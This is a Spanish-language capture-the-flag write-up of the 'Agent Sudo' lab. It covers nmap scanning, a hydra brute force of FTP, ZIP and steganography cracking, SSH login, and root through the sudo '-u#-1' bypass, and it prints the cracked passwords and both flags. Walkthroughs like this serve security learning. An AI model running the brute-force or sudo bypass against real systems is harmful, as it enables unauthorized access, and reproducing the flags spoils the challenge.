

# Agent Sudo

## Enumeración

Realizamos un escaneo de puertos con `nmap` sobre la víctima para identificar puertos y servicios disponibles:

```bash
sudo nmap -sV -T4 -p- 10.10.130.68
```

Los puertos 21 de FTP, 22 de SSH y 80 de HTTP están abiertos.


Accedemos a la web:


Nos dice que en la petición HTTP, en el `User-Agent`, usemos el nombre **R**. Ejecutamos:

```bash
curl http://10.10.130.68/ -H "User-Agent: R" -L
```

Obtenemos el siguiente resultado:


Probamos con todas las letras hasta acertar:


Nos indica que el usuario `chris` tiene una contraseña débil.

## Ataque de fuerza bruta

Usamos `hydra` sobre FTP con el usuario `chris`:

```bash
hydra 10.10.130.68 -l chris -P /usr/share/wordlists/rockyou.txt ftp
```

La contraseña de `chris` es **crystal**.



Accedemos por FTP:


Listamos archivos: un `.txt` y dos imágenes.


Descargamos con `get`:


El `.txt` indica que las fotos son falsas, y que la contraseña está oculta en la imagen.


Usamos `binwalk` para extraer el ZIP:

```bash
binwalk cutie.png --extract
```


El ZIP está encriptado. Extraemos el hash para `john`:

```bash
zip2john 8702.zip > hash.txt
john hash.txt
```


John revela la contraseña **alien**.


Extraemos el ZIP y obtenemos un código Base64:


Decodificamos:

```bash
echo 'QXJlYTUx' | base64 -d
```


Con `steghide` extraemos de `cute-alien.jpg`:

```bash
steghide --extract -sf cute-alien.jpg -p Area51
```

Obtenemos credenciales de `james`: **hackerrules!**


## Escalada de privilegios

Nos conectamos por SSH como `james`:

```bash
ssh james@10.10.130.68
```


Leemos la flag de usuario:


```
b03d975e8c92a7c04146cfa7a5a313c7
```

Comprobamos sudo:

```bash
sudo -l
```


Vemos que `/bin/bash` es ejecutable sin contraseña en versión vulnerable (<1.8.28). Exploit: [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)


Saltamos auth de sudo:

```bash
sudo -u#-1 /bin/bash
```

Obtenemos la flag root:


```
b53a02f55b57d4439e3341834d70c062
```
